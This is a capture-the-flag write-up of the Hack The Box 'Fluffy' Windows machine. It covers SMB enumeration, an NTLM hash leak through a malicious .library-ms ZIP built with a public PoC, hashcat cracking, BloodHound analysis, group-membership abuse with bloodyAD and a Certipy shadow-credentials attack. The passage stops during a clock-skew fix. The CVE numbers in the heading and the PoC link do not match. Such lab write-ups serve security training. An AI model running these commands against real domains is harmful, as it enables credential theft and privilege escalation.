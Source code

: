 ```yaml
---
title: "Fluffy"
date: 2025-08-10
categories: [HTB]
tags: [machine, ADCS, CVE,AD]
---
```

![Fluffy_LOGO](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F2we71mC5teWddCF6fbQe%252Fimage.png%3Falt%3Dmedia%26token%3Dc9425f88-ada6-4697-95cf-e75b70b4316d&width=400&dpr=3&quality=100&sign=f0c96453&sv=2)

- **OS:** Windows
- **Difficulty:** Easy
- **Machine:** Active
- **Released:** 24/05/2025

## Machine Information
As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account:  ```j.fleischman``` / ```J0elTHEM4n1990!```

## Nmap Scan
```shell
sudo nmap 10.10.11.69 -T4 -A -open -p-
```
```shell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 04:05:16Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-21T04:06:17
|_  start_date: N/A
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   170.58 ms 10.10.16.1
2   170.95 ms 10.10.11.69
```
We get some important data about target:

## SMB

So i started by testing the SMB port using the initial credentials:
```shell
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
Then we expanded and downloaded everything using:
```shell
nxc smb fluffy.htb  -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M spider_plus -o DOWNLOAD_FLAG=True
```
![nxc_smb](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FX7MnVPxXGOWE7TkFP55N%252FScreenshot%2520From%25202025-07-24%252005-09-46.png%3Falt%3Dmedia%26token%3D10b19759-4999-4bd5-a4f0-f8570a1683b6&width=400&dpr=3&quality=100&sign=2618b13f&sv=2)
Checked the downloaded SMB files and found a PDF called Upgrade_Notice.pdf looked suspicious from the IT department listing CVEs affecting the current Windows version. 
One of them, CVE-2025-24996 (NTLM File Path Spoofing), has a working PoC on GitHub.
![Upgrade_Notice.pdf](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fq0AnquA03OphFgIg80bn%252Fimage.png%3Falt%3Dmedia%26token%3Dd062d06d-46a3-4c5c-be8f-6e49eb429c8e&width=400&dpr=3&quality=100&sign=13faa9f9&sv=2)

## CVE-2025-24996: NTLM Hash Leak via .library-ms File 
the link of POC: ```https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom```

![CVE-2025-24071](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FIgOwImNjv6GsZiXfzsUm%252Fimage.png%3Falt%3Dmedia%26token%3Db1be3b27-934f-4639-8342-cc405d6f9c2b&width=400&dpr=3&quality=100&sign=482ceac1&sv=2)

Let’s start exploiting it.

After following the steps in the PoC:
- Loaded the Metasploit module
- Set the attacker IP, filename, library name, and SMB share
- Ran the module and generated the malicious ZIP file ```(exploit.zip)```

Once the victim extracts the ZIP, Windows Explorer automatically processes the embedded ```.library-ms``` file. This triggers a connection attempt to the attacker's SMB server, resulting in NTLMv2 hash leakage.

You should see an output similar to the following:
![exploit](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F9PJS7vnaCDkjdUxNUFbX%252FScreenshot%2520From%25202025-07-21%252004-06-39.png%3Falt%3Dmedia%26token%3D3b0c5fc8-8efe-4144-a186-10f94fd7b702&width=768&dpr=4&quality=100&sign=8ad495af&sv=2)
This hash can now be cracked offline using tools like hashcat or john to recover the user's cleartext password.

```shell
hashcat -m 5600 -a 0 ntlmv2.txt /home/kali/Downloads/rockyou.txt
```

![hashcat](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FapeoNuGmbWdeIa26qjBJ%252FScreenshot%2520From%25202025-07-21%252004-22-19.png%3Falt%3Dmedia%26token%3D6ca0f956-32f3-483b-84dc-ee506bf573c3&width=400&dpr=3&quality=100&sign=98ac6e59&sv=2)

now you have credentials of user target ```P.AGILA:prometheusx-303```


## BloodHound

I used the credentials for  ```p.agila@fluffy.htb``` and analyzed them with BloodHound.

```shell
bloodhound-python -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```
I found that this user is part of the ```SERVICE ACCOUNT MANAGERS group```, which has ```GenericAll``` privileges over the ```SERVICE ACCOUNTS group```. 
This means full control i can add or remove users, and modify settings for that group.
![BloodHound1](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FQGwJrGqNuvim9ifURpEc%252FScreenshot%2520From%25202025-07-24%252006-43-18.png%3Falt%3Dmedia%26token%3Ddd2630e6-68c2-4f23-ad3d-c72100a91ba8&width=400&dpr=3&quality=100&sign=130f1eb3&sv=2)
let's see what we got, SERVICE ACCOUNTS contains key accounts such as:
- WINRM_SVC@FLUFFY.HTB
- LDAP_SVC@FLUFFY.HTB
- CA_SVC@FLUFFY.HTB
![BloodHound2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FfBcmqHW18XBDWYZk4bS4%252Fimage.png%3Falt%3Dmedia%26token%3Da2871440-54a6-4ee7-b090-f9d4c2a2b8e4&width=400&dpr=3&quality=100&sign=addd2495&sv=2)
If we see the user ```CA_SVC```, it's likely related to Certificate Services, and it may open a path to Active Directory Certificate Services (AD CS) exploitation.

This gives ```p.agila``` the ability to modify attributes of ```ca_svc```, a critical step for Shadow Credentials or Other attacks related to Certificate Services.
```shell
bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila
```
By adding ```p.agila``` to SERVICE ACCOUNTS, I can potentially escalate privileges and gain further control through these service accounts.
![bloodyAD](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FMfl0tQ7Cp461M9UjB3fL%252Fimage.png%3Falt%3Dmedia%26token%3D11314faf-8c66-4310-9a9d-0ea0b75080c9&width=400&dpr=3&quality=100&sign=96288301&sv=2)
Now we are ```p.agila``` added to ```SERVICE ACCOUNTS``` what next step???

After some research, I discovered that the attack path involves Active Directory Certificate Services (AD CS) exploitation am one pf this attacks called To better understand this technique, I referenced this detailed blog:

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6

## Shadow Credentials → $User 

> The old tool certipy-ad is outdated, so I used the updated and maintained Certipy tool instead https://github.com/ly4k/Certipy don't mix between them
{: .prompt-warning }

```shell
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'WINRM_SVC' auto
```
![Certipy](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FpZSFWengHFPG9lJl0gBq%252Fimage.png%3Falt%3Dmedia%26token%3Dfdb6141b-4c81-477c-a741-1d1a2ae7b14b&width=400&dpr=3&quality=100&sign=b757e698&sv=2)

The ```KRB_AP_ERR_SKEW``` error occurs because your machine’s clock is out of sync with the Domain Controller ```10.10.11.69```, breaking Kerberos authentication for the Shadow Credentials attack. Fix it by syncing time with ```sudo ntpdate 10.10.11.69```

> Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)
It means your machine's clock is out of sync with the domain controller and Kerberos hates that.
Fix it with:
{: .prompt-warning }
```shell
bashCopyEditsudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.69
This stops the system time service and manually syncs your clock with the DC (10.10.11.69), so you can get Kerberos tickets properly again.
```